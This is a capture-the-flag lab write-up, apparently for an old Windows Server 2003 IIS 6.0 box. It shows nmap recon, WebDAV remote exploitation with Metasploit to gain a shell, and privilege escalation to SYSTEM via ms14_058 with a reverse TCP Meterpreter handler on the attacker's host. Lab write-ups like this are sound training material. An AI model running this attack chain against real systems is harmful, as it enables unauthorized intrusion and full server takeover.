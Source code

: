# recon
- nmap
```
80/tcp open  http    Microsoft IIS httpd 6.0
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|   /postinfo.html: Frontpage file or folder
|   /_vti_bin/_vti_aut/author.dll: Frontpage file or folder
|   /_vti_bin/_vti_aut/author.exe: Frontpage file or folder
|   /_vti_bin/_vti_adm/admin.dll: Frontpage file or folder
|   /_vti_bin/_vti_adm/admin.exe: Frontpage file or folder
|   /_vti_bin/fpcount.exe?Page=default.asp|Image=3: Frontpage file or folder
|   /_vti_bin/shtml.dll: Frontpage file or folder
|_  /_vti_bin/shtml.exe: Frontpage file or folder
| http-frontpage-login: 
|   VULNERABLE:
|   Frontpage extension anonymous login
|     State: VULNERABLE
|       Default installations of older versions of frontpage extensions allow anonymous logins which can lead to server compromise.
```
- Microsoft Windows 2003|2008|XP|2000 (92%)

- port 80
  - /_vti_bin/_vti_aut/author.exe
  - /_vti_bin/_vti_adm/admin.exe
  - /_vti_bin/shtml.exe
  - _vti_inf.html : FrontPage Configuration Information
```
<!-- FrontPage Configuration Information
    FPVersion="5.0.2.6790"
    FPShtmlScriptUrl="_vti_bin/shtml.dll/_vti_rpc"
    FPAuthorScriptUrl="_vti_bin/_vti_aut/author.dll"
    FPAdminScriptUrl="_vti_bin/_vti_adm/admin.dll"
    TPScriptUrl="_vti_bin/owssvr.dll"
```

after some diging on, FPVersion and FrontPage Configuration.
- https://docs.microsoft.com/en-us/security-updates/securitybulletins/2003/ms03-051
- https://www.rapid7.com/db/modules/exploit/windows/isapi/ms03_051_fp30reg_chunked
to sumup: it use `/_vti_bin/_vti_aut/fp30reg.dll` to exploit the server but sadly there is no `fp30reg.dll`

so back to step one again. let check more info on **Microsoft IIS httpd 6.0** and looking for exploit. after som digging, I decided to use `iis_webdav_scstoragepathfromurl` on msfconsole. 
- https://www.exploit-db.com/exploits/41738
- https://www.rapid7.com/db/modules/exploit/windows/iis/iis_webdav_scstoragepathfromurl
```
msf5 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > check
[+] 10.10.10.14:80 - The target is vulnerable.
msf5 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > run
```

# foot hold
```
c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service
```
lets grab the flags
```
meterpreter > cat Harry/Desktop/user.txt
[-] stdapi_fs_stat: Operation failed: Access is denied.
meterpreter > cd Harry
[-] stdapi_fs_chdir: Operation failed: Access is denied.
```
ofc it doesnt works, we are only an network service user...
```cmd
c:\windows\system32\inetsrv>systeminfo
systeminfo

Host Name:                 GRANPA
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
.
.
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: Q1472
.
```
okey let backgroud the session and run exploit suggerter


```
msf5 post(multi/recon/local_exploit_suggester) > run

[+] 10.10.10.14 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
  This module will create a new session with SYSTEM privileges via the 
  KiTrap0D exploit by Tavis Ormandy. If the session in use is already 
  elevated then the exploit will not run. The module relies on 
  kitrap0d.x86.dll, and is not supported on x64 editions of Windows.
[+] 10.10.10.14 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
  This module exploits a NULL Pointer Dereference in win32k.sys, the 
  vulnerability can be triggered through the use of TrackPopupMenu. 
  Under special conditions, the NULL pointer dereference can be abused 
  on xxxSendMessageTimeout to achieve arbitrary code execution. This 
  module has been tested successfully on Windows XP SP3, Windows 2003 
  SP2, Windows 7 SP1 and Windows 2008 32bits. Also on Windows 7 SP1 
  and Windows 2008 R2 SP1 64 bits.
[+] 10.10.10.14 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
  A vulnerability within the Microsoft TCP/IP protocol driver 
  tcpip.sys can allow a local attacker to trigger a NULL pointer 
  dereference by using a specially crafted IOCTL. This flaw can be 
  abused to elevate privileges to SYSTEM.
[+] 10.10.10.14 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
  This module exploits improper object handling in the win32k.sys 
  kernel mode driver. This module has been tested on vulnerable builds 
  of Windows 7 x64 and x86, and Windows 2008 R2 SP1 x64.
[+] 10.10.10.14 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
  This module exploits the vulnerability in mrxdav.sys described by 
  MS16-016. The module will spawn a process on the target system and 
  elevate its privileges to NT AUTHORITY\SYSTEM before executing the 
  specified payload within the context of the elevated process.
[+] 10.10.10.14 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
  This module exploits a vulnerability on EPATHOBJ::pprFlattenRec due 
  to the usage of uninitialized data which allows to corrupt memory. 
  At the moment, the module has been tested successfully on Windows XP 
  SP3, Windows 2003 SP1, and Windows 7 SP1.
```

# root
I decided to use `windows/local/ms14_058_track_popup_menu` since it looks accurate. Base on infomation from suggerter the exploit is tested on `Windows 2003 SP2` which is the save os as the victim server.
```
msf5 exploit(windows/local/ms14_058_track_popup_menu) > run
[*] Started reverse TCP handler on 10.10.14.12:4445 
[-] Exploit failed: Rex::Post::Meterpreter::RequestError stdapi_sys_config_getsid: Operation failed: Access is denied.
[*] Exploit completed, but no session was created.
```
so let move back to our session 1. and migrate to proccess `wmiprvse.exe` now background it and run the exploit again.
```
msf5 exploit(windows/local/ms14_058_track_popup_menu) > run

[*] Started reverse TCP handler on 10.10.14.12:4445 
[*] Launching notepad to host the exploit...
[+] Process 3252 launched.
[*] Reflectively injecting the exploit DLL into 3252...
[*] Injecting exploit into 3252...
[*] Exploit injected. Injecting payload into 3252...
[*] Payload injected. Executing exploit...
[*] Sending stage (176195 bytes) to 10.10.10.14
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Meterpreter session 2 opened (10.10.14.12:4445 -> 10.10.10.14:1042) at 2020-09-23 13:59:22 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```
go grab the flags